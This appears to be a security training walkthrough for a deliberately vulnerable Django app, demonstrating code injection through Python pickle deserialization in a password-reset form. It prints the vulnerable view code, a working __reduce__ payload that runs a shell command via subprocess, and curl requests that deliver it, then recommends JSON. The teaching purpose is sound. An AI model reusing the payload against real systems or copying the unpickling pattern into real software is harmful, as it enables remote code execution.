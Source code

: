 **Description**:  Code Injection is an attack type in the application executes untrusted injected code.
These attacks are usually a result of improper input/output data validation.
 In this case we will explore Python's pickle library which "is not secure against erroneous or maliciously constructed data."

**Why**: Typically object serialization is used as a way to quickly compress an object into a byte stream.
This is useful for easily storing objects or even transferring objects efficiently through different parts of a program.

Let's look at the code.

We begin by allowing the functionality to reset a password. A user then gets an "email" which contains a link that takes the user to a password reset form.

**/template/password_reset/reset.html**
```html
 <form id = "resetForm" method="post" action="/password_resets/" > {% csrf_token %}

            <input type="hidden" value={{user}} name="user">

            <div class="form-group">
                <div class="cols-sm-10">
                    <div class="input-group">
                        <span class="input-group-addon"><i class="fa fa-lock fa-lg" aria-hidden="true"></i></span>
                        <input type="password" class="form-control" name="password" id="password"
                               placeholder="New Password" minlength="5" />
                    </div>
                </div>
            </div>
```

Note that our form has a hidden field called user. This user field is in fact a base64 encoded serialized user object created in the confirm_token method

**/views/password_resets/views.py**
```python
@require_http_methods(["GET"])
def confirm_token(request):
    if request.GET.get('token', '') != '' and is_valid_token(
            request.GET['token']):
        messages.success(request, 'Please create a new password.')
        id = request.GET['token'].split('-')[0]
        user = User.objects.filter(user_id=id).first()
        encoded = base64.b64encode(pickle.dumps(user))

        return render(request, 'password_reset/reset.html',
                      context={'user': encoded})
    else:
        try:
            messages.error(request, 'Bad token')
        except:
            pass

        return HttpResponseRedirect(reverse('app:login'))
```

Once submitted the form's data is sent to the reset_password method

**/views/password_resets/views.py**
```python
@require_http_methods(["POST"])
def reset_password(request):
    if request.POST.get('user', '') != '':
        encoded_user = request.POST['user']
        user = pickle.loads(base64.b64decode(encoded_user))

        user.password = request.POST['password']
        user.save()
        messages.success(request, 'Your password has been updated')
    else:
        try:
            messages.error(request, 'Password did not reset')
        except:
            pass

    return redirect('/login')

```

We decode and then pickle unserializes the byte stream into a python object. Well what if we changed the data that pickle recieves?

**The Attack:**

This attach is slightly complicated and requires a decent amount of setup. But it is important to note. We will essentially send a curl request to http://localhost:8000/password_resets/ which has "malicious" data that pickle incidentally executes. Let's begin by constructing this malicious data.

(python shell)
```
>>> import pickle
>>> import base64
>>> import subprocess
>>> class GenProcess(object):
        def __reduce__(self):
            return (subprocess.Popen, (('ls',),))
>>> print base64.b64encode(pickle.dumps(GenProcess()))
Y3N1YnByb2Nlc3MKUG9wZW4KcDAKKChTJ2xzJwpwMQp0cDIKdHAzClJwNAou
```
We just serialized subprocesss method that runs the 'ls' command on our terminal.

Now we'll put together or curl request. It will be in the form

```
curl -H 'Cookie:   csrftoken=<csrf_token>' --data "user=<encoded_object>=&password=password1&confirm_password=password1&csrfmiddlewaretoken=<middleware_token>" http://localhost:8000/password_resets/
```

To get the crsf token fill out the password reset form and get the link. Then make this curl request

```
curl -i localhost:8000/password_resets/?token=2-e1ee0df341f342553a75351cf5e13b31
```
Scrolling to the top you will see the csrf_token. And right next to <form> tag you will see the csrfmiddlewaretoken value. Now for encoded_object parameter put in the output of the python shell. When you send the request you should see the ls command executed!

**The Solution:**

Never use serialization frameworks like pickle or marshal with user input! Prioritize other forms of serialization including json.

